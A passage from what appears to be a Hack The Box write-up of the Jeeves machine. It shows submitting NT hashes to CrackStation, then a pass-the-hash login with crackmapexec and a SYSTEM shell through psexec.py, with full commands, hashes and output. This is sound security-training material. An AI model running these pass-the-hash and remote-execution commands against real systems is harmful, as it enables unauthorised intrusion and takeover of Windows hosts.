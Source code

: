 Because there’s no salting in NT hashes, I can submit them to
[CrackStation](https://crackstation.net/), where they store _tons_ of hashes
for known passwords. It finds the empty LM hash, but doesn’t have anything for
the NT hash:

![image-20220413072456310](https://0xdfimages.gitlab.io/img/image-20220413072456310.png)

#### Pass The Hash

Because of how Windows handles authentication, when you enter your password,
it’s actually the hash of the password that the client sends to Windows. That
means with the right client, you can just pass that hash directly.
`crackmapexec` is one of those clients that can take a hash and try to auth
with it, and it works:

    
    
    oxdf@hacky$ crackmapexec smb 10.10.10.63 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00                                                    
    SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
    SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
    

Now only is it successful, but it shows `(Pwn3d!)`, which means this account
has admin access.

### Shell

With valid admin creds, I’ll use `psexec.py` to get a shell:

    
    
    oxdf@hacky$ psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63 cmd.exe
    Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation
    
    [*] Requesting shares on 10.10.10.63.....
    [*] Found writable share ADMIN$
    [*] Uploading file KLAXsITe.exe
    [*] Opening SVCManager on 10.10.10.63.....
    [*] Creating service xUyL on 10.10.10.63.....
    [*] Starting service xUyL.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.10586]
    (c) 2015 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32> whoami
    nt authority\system
    

### root.txt

On Administrator’s desktop, there’s no `root.txt`, but rather a `hm.txt`:

    
    